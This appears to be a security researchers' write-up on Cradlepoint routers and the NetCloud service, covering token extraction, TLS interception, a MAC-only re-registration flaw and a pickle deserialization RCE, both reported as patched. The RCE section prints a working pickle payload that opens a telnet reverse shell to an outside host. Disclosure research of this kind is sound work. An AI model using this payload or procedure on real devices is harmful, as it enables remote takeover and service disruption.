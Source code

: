 # NetCloud

- [Recon](#recon)
- [Get Access Token](#get-access-token)
- [Decrypt NetCloud Traffic in Wireshark](#decrypt-netcloud-traffic-in-wireshark)
- [MITM NetCloud Traffic with mitmproxy](#mitm-netcloud-traffic-with-mitmproxy)
- [Disconnect any Cradlepoint Router from NetCloud](#disconnect-any-cradlepoint-router-from-netcloud)
- [RCE](#rce)

## Recon

Cradlepoint documentation:

- [How to connect a router to NetCloud](https://customer.cradlepoint.com/s/article/NCM-Connecting-Devices)
- [NetCloud API to query routers remotely](https://customer.cradlepoint.com/s/article/NCM-APIv2-Overview)
  - [API query examples](https://developer.cradlepoint.com/)
- [Enable remote administration](https://customer.cradlepoint.com/s/article/NCOS-How-to-Configure-Remote-Administration-on-a-Cradlepoint-Router)

WPC Authentication / ECM:

- https://accounts.cradlepointecm.com/
  - Login with username and password
- The router uses a login `token_id` and `token_secret`
  - Token stored in NOR storage
  - `$ binwalk –extract nordump_pw0000.bin`
  - `$ grep -rl "wpc.auth" .`
- `ecm` command in the router's CLI
  - Privileged sub-commands: `tri`, `ale`, `dif`
- Connection
  - Server: `stream.cradlepointecm.com`
  - Port: `8001`
  - Certificate: `/service_manager/services/wpcclient/stream.crt`
- "Insecure Activation" (see `wpcclient.pyc`) probably only works if it's manually activated from the NetCloud side (see [use case](https://customer.cradlepoint.com/s/article/How-To-Have-Cradlepoint-register-a-router-to-NetCloud-Manager-when-it-is-physically-not-accessible)).
- "Insecure Activation" was also used to generate temporary credentials for brand-new devices (fixed by Cradlepoint after our report, fix verified by us).

## Get Access Token

Read NetCloud token from a [patched router CLI](../README.md#flashing-the-nand-images):

Connect to the router via SSH:

```bash
ssh admin@192.168.0.1
admin@192.168.0.1's password: 
[admin@IBR600C-a38: /]$ sh
/service_manager # cppython
```

... and paste the following into the interpreter:

```python
import filemanager
from board import board
file_io = board.get_partition("2nd Filemanager", rwdev=True)
fm2 = filemanager.FileManager2(file_io)
token = fm2.get("wpc.auth")
```

Example output: `(2439001, 0, '2b29ffccbda7e45df943dc1e82a096af04e24249', 'stream.cradlepointecm.com', 8001)`

You can use the `netcloud` command to register the router with the token:

```bash
[admin@IBR600C-a38: /]$ netcloud register --token_id=0 --token_secret=2b29ffccbda7e45df943dc1e82a096af04e24249
```

## Decrypt NetCloud Traffic in Wireshark

This step requires a rooted device (see [here](../README.md) for details).

1. In the dumped rootfs set the `SSLKEYLOGFILE` environment variable in `/etc/rc` and [reflash](../README.md#flashing-our-custom-kernel-and-rootfs) the device:

```bash
export SSLKEYLOGFILE=/tmp/ssl_key.txt
```

2. Connect to the router via SSH and start tcpdump:

```bash
ssh admin@192.168.0.1
admin@192.168.0.1's password: 
[admin@IBR600C-a38: /]$ sh
/service_manager # cd /var/tmp && tcpdump -i athc00 -w /tmp/netcloud_dump.pcap
```

3. Start a HTTP server to download the PCAP:

```bash
/var/tmp # iptables -A INPUT -p tcp --dport 8080 -j ACCEPT
/var/tmp # cppython -m http.server 8080
```

4. Download PCAP:

```bash
$ wget 192.168.0.1:8080/netcloud_dump.pcap
```

5. Import pre-master secret into Wireshark: Grab the file from step 1) and add it to Wireshark (`Preferences` --> `TLS` --> `(Pre)-Master-Secret logfile name`)

6. Export TLS stream as YAML: `Follow` --> `TLS Stream` --> `Show Data as YAML`

7. Finally, parse the YAML file with this [script](./scripts/parse_netcloud_packets_from_yaml.py).

## MITM NetCloud Traffic with mitmproxy

This how-to sets up your MITM box as a transparent proxy to intercept Netcloud communications with mitmproxy (we used a Raspberry Pi for this purpose).

1. Enable IP forwarding, setup `dnsmasq` and configure `iptables` rules. For example:

```bash
#!/bin/bash
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
sudo iptables -A FORWARD -i eth0 -o wlan0 -j ACCEPT
sudo iptables -A FORWARD -i wlan0 -o eth0 -m state --state RELATED,ESTABLISHED -j ACCEPT
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 8001 -j REDIRECT --to-port 8080
sudo systemctl daemon-reload && sudo systemctl restart dhcpcd
sudo service dnsmasq restart
```

2. Setup the router's WAN interface to use your proxy as the default gateway (e.g., via the web interface)

3. Install mitmproxy (on Raspberry Pi):

``` bash
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
$ sudo apt-get install build-essential libssl-dev libffi-dev python3-dev cargo
$ git clone https://github.com/mitmproxy/mitmproxy/tree/main/mitmproxy
$ cd mitmproxy
$ pip install -e .
```

4. On the router, copy your MITM CA certificate into the file `/service_manager/services/wpcclient/stream.crt` (trusted CA "store")

5. Copy your MITM CA certificate into mitmproxy's folder. It must have the name `mitmproxy-ca.pem` and the following structure:

```
-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
...
-----END CERTIFICATE-----
```

6. Fire up mitmproxy using [this](./scripts/mitmproxy_netcloud_logging.py) logging script:

```bash
$ mitmproxy --mode transparent --set confdir=$HOME/mitmproxy --rawtcp --tcp-hosts ".*" -s mitmproxy_netcloud_logging.py
```

## Disconnect any Cradlepoint Router from NetCloud

A device registered with Netcloud can be disconnected remotely by registering it again from any machine connected to the Internet by knowing its MAC address only (w/o
Netcloud credentials and w/o accessing the device physically). The device identity is based on its MAC address only. 

To reproduce, one has to go through the following steps:

1. We found a function in the Python middleware involved in the registration process called `insecure_registration`. This function is taking a MAC address as input and is computing a value out of it with some multiple hashes. We were able to get a temporary Netcloud authentication token using this function by calling the Netcloud API function `check_activation` with the result of the `insecure_registration` function, using a valid MAC address as input. Such MAC addresses can be easily obtained from online marketplace such as ebay.
After calling the API one receives an access token from stream.cradlepointecm.com, e.g.:
```
{'token_id': 'temp-xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx',
'token_secret': 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'}
```
2. This token can then be used to call the `authorize` and `register` Netcloud APIs to register the targeted device with its MAC address from any machine.
3. As a result, the targeted device is disconnected from its Netcloud account and disappears. Also, it loses its license. To re-connect the router, it must be manually
re-registered via the web/ssh interface or physical access.

The attacker does not need to have a Netcloud account by her/himself. Only knowledge of the target’s MAC address is needed.
This vulnerability has been patched.

## RCE through deserializing untrusted data

By analyzing the traffic between Netcloud and our Cradlepoint router, we noticed that during registration, the router engages in a license sync with
Netcloud by sending its license as a **pickled Base64 encoded byte stream**. Here is an example:

```
{'command': 'post', 'args': {'queue': 'license_sync', 'id': 'xxx', 'value': {'success': True, 'data': 'gAJ9[...]=='}}} 
```

The [Python pickle module](https://docs.python.org/3/library/pickle.html) implements binary protocols for serializing and de-serializing a Python object structure. A big warning is stated:

**Warning The pickle module is not secure. Only unpickle data you trust.**

As we control the data, it’s possible to execute malicious pickle opcodes on Netcloud servers. For example remote execution is possible, see [this blog](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). We can use this simple payload to get a reverse shell:

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('telnet 192.168.1.200 8080 | /bin/bash | telnet 192.168.1.200 8081')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(pickled)
```

We didn’t run the attack against Netcloud, but were able to exploit the issue in the other direction on the router.
This vulnerability has been patched. 
